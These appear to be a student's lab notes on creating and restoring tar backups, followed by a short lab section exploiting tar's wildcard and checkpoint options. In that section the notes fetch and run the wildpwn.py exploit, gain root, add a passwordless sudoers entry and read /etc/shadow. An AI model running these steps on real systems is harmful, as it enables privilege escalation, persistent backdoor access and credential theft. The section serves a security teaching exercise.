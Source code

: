 # Week 5.1

## Creating and Restoring Backups with tar

```console
cd ~/Documents/epscript/
ls -l
cd ..
sudo tar cvvWf 20190505epscript.tar epscript/ > 20190505epscript.txt
sudo tar tvvf 20190505epscript.tar | less
cd epscript/backup/
sudo tar tvvf 20190814epscript.tar | less
sudo mkdir patient_search
sudo tar xvvf 20190814epscript.tar -C patient_search/ epscript/patients/
ll patient_search/epscript/patients/
tar xvf 20190814epscript.tar 
grep -R "Mark,Lopez" epscript/
grep -R "Megan,Patel" epscript/
```
An important note when created backups. You cannot be in the the directory you want the backup of. we we cd .. out first.

## Restoring Data Incremental Backups

```console
cd ~/Documents/epscript
tar cvvWf epscript_back_sun.tar --listed-incremental=epscript_backup.snar --level=0 testenvir
tar tvvf epscript_back_sun.tar --incremental | less
rm -r testenvir/patient/
tar xvvf epscript_back_sun.tar -R -C ~/Documents/epscript/ testenvir/patient/
touch patient.0a.txt patient.0b.txt
tar cvvWf epscript_back_mon.tar --listed-incremental=epscript_backup.snar testenvir
tar tvvf epscript_back_mon.tar --incremental | less
```

## Exploiting the tar Command with the Checkpoint and Wildcard Options

```console
cd
sudo su jane
cd ~/Documents
cd ExploitTar
wget https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py
python wildpwn.py tar .
ls -lat
cd .cache/
ls -lat
./.cachefile
visudo
```
From the exploit we now have root priviledges. As Jane we are able to enter visudo without any priviledge escalations. Within visudo we give ourselves all permissions with jane ALL=(ALL) NOPASSWD:ALL
```console
su jane
sudo cat etc/shadow
sudo rm -rf ~/Documents/ExploitTar
sudo apt install lynis
sudo lynis audit system
sudo nano /var/log/lynis-report.dat
```

# Week 5.2

